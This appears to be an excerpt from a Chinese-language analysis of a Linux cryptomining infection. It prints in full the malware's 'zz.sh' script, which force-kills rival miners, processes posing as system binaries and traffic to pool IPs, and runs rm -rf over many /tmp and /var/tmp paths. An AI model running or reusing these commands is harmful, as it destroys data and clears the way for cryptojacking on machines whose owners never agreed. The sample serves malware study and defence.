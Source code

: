 
# *(*2) zz.sh 脚本*

```
*#!/bin/bash
pkill -f donate
pkill -f proxkekman
pkill -f 158.69.133.18
pkill -f 192.99.142.246
pkill -f test.conf
pkill -f /var/tmp/apple
pkill -f /var/tmp/big
pkill -f /var/tmp/small
pkill -f /var/tmp/cat
pkill -f /var/tmp/dog
pkill -f /var/tmp/mysql
pkill -f /var/tmp/sishen
pkill -f ubyx
pkill -f /var/tmp/mysql
rm -rf /var/tmp/mysql
ps ax | grep java.conf | grep bin | awk '{print $1}' | xargs kill -9
ps ax|grep "./noda\|./manager"|grep sh|grep -v grep | awk '{print $1}' | xargs kill -9
ps ax|grep "./no1"|grep -v grep | awk '{print $1}' | xargs kill -9
ps ax|grep "./uiiu"|grep -v grep | awk '{print $1}' | xargs kill -9
ps ax|grep "./noss"|grep -v grep | awk '{print $1}' | xargs kill -9
ps ax|grep "8220"|grep -v grep | awk '{print $1}' | xargs kill -9
pkill -f cpu.c
pkill -f tes.conf
pkill -f psping
ps ax | grep cs.c | grep bin | awk '{print $1}' | xargs kill -9
ps ax | grep -- "-c cs" | awk '{print $1}' | xargs kill -9
ps ax | grep -- "-c pcp" | awk '{print $1}' | xargs kill -9
ps ax | grep -- "-c omo" | awk '{print $1}' | xargs kill -9
pkill -f /var/tmp/java-c
pkill -f pscf
pkill -f cryptonight
pkill -f sustes
pkill -f xmrig
pkill -f xmr-stak
pkill -f suppoie
ps ax | grep "config.json -t" | grep -v grep | awk '{print $1}' | xargs kill -9
ps aux | grep "/lib/systemd/systemd" | awk '{if($3>20.0) print $2}' | xargs kill -9
ps ax | grep 'wc.conf\|wq.conf\|wm.conf\|wt.conf' | grep -v grep | grep 'ppl\|pscf\|ppc\|ppp' | awk '{print $1}' | xargs kill -9
rm -rf /var/tmp/pscf*
rm -rf /tmp/pscf*
pkill -f ririg
rm -rf /var/tmp/ntpd
pkill -f /var/tmp/ntpd
rm -rf /var/tmp/ntp
pkill -f /var/tmp/ntp
rm -rf /var/tmp/qq
rm -rf /var/tmp/qq1
pkill -f /var/tmp/qq
rm -rf /tmp/qq
rm -rf /tmp/qq1
pkill -f /tmp/qq
pkill -f /var/tmp/aa
rm -rf /var/tmp/aa
rm -rf /var/tmp/gg
rm -rf /var/tmp/gg1
pkill -f gg1.conf
rm -rf /var/tmp/hh
```